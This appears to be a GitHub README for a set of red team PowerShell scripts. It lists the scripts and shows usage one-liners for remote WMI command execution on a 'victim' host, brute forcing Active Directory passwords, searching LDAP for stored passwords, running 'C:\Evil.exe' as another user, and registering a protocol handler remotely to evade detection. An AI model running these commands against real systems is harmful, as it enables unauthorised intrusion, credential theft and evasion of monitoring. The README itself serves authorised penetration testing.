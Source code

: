# Red Team Powershell Scripts

```
Search-EventForUser.ps1: Powershell script that search through the Windows event logs for specific user(s)
Search-FullNameToSamAccount.ps1: Full name to SamAccountName
Search-UserPassword.ps1: Search LDAP for userPassword field
Remote-WmiExecute.ps1: Execute command remotely using WMI
Take-Screenshot.ps1: Take a screenshot (PNG)
Get-BrowserHomepage.ps1: Get browser homepage
Get-IEBookmarks.ps1: List all Internet Explorer bookmarks URLs
Invoke-ADPasswordBruteForce.ps1: Test users password
Utility.ps1: Contain several cmdlets
Run-As.ps1: Run a process as another user (credentials)
Get-ProcessList.ps1: List processes, owner and command line arguments
Remote-RegisterProtocolHandler.ps1: Use protocol handler to run your command to bypass some detection
```

# Search-EventForUser.ps1 Usage
```
module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser "MrUn1k0d3r"

module-import .\Search-EventForUser.ps1; "MrUn1k0d3r" | Search-EventForUser

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -ComputerName DC01

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true -Username DOMAIN\admin -Password "123456"
```
The -User parameter support single user or a list of users from pipeline

# Search-FullNameToSamAccount.ps1 Usage
```
module-import .\Search-FullNameToSamAccount.ps1; Search-FullNameToSamAccount -Filter *god*

module-import .\Search-FullNameToSamAccount.ps1; "god", "mom" | Search-FullNameToSamAccount
```

# Search-UserPassword.ps1 Usage
```
module-import .\Search-UserPassword.ps1; Search-UserPassword -Username *god*

module-import .\Search-UserPassword.ps1; "god", "mom" | Search-UserPassword
```

# Remote-WmiExecute.ps1 Usage
```
module-import .\Remote-WmiExecute.ps1; Remote-WmiExecute -ComputerName victim01 -Payload "cmd.exe /c whoami"
```

# Take-Screenshot.ps1 Usage
```
module-import .\Take-Screenshot.ps1; Take-Screenshot -Path C:\test.png
```

# Get-BrowserHomepage.ps1 Usage
```
module-import .\Get-BrowserHomepage.ps1; Get-BrowserHomepage
```

# Get-IEBookmarks.ps1 Usage
```
module-import .\Get-IEBookmarks.ps1; Get-IEBookmarks
```

# Invoke-ADPasswordBruteForce.ps1 Usage
```
module-import .\Invoke-ADPasswordBruteForce; Invoke-ADPasswordBruteForce -Username "mr.un1k0d3r" -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password" -Domain MATRIX
```

# Utility.ps1

Contain de following cmdlets
```
Search-EventForUser
Search-FullNameToSamAccount
Ldap-GetProperty
Search-UserPassword
Dump-UserEmail
Dump-Computers
Dump-UserName
```

# Run-As.ps1

```
module-import .\Run-As.ps1; Run-As -Username RingZer0\Mr.Un1k0d3r -Password "IShouldNotLeakThisPasswordOnTheInternet" -Process "C:\Evil.exe"
```

# COM-Utility.ps1

Contain de following cmdlets
```
Invoke-COM-ScheduleService
Invoke-COM-XMLHTTP
Invoke-COM-ShellBrowserWindow
Invoke-COM-WindowsScriptHost
Invoke-COM-ProcessChain 
Invoke-COM-ShellApplication
```

# Get-ProcessList.ps1 Usage

```
module-import .\Get-ProcessList.ps1; Get-ProcessList
```

# Remote-RegisterProtocolHandler.ps1 Usage

This cmdlet create a protocol handler that will call your payload. The idea is to avoid detection since the command that will be execute will look like the following one:

`explorer ms-browse://`

Where `ms-browser` is the custom handler you registered and will execute your command

```
module-import .\Remote-RegisterProtocolHandler.ps1; Remote-RegisterProtocolHandler -ComputerName host -Payload "command to run"
module-import .\Remote-RegisterProtocolHandler.ps1; Remote-RegisterProtocolHandler -ComputerName host -Payload "command to run" -Handler ms-handler-name 
```

# Todo

1. Take-Screenshot.ps1:
  * Handle multiple screens

# Credit
Mr.Un1k0d3r RingZer0 Team

Tazz0 RingZer0 Team
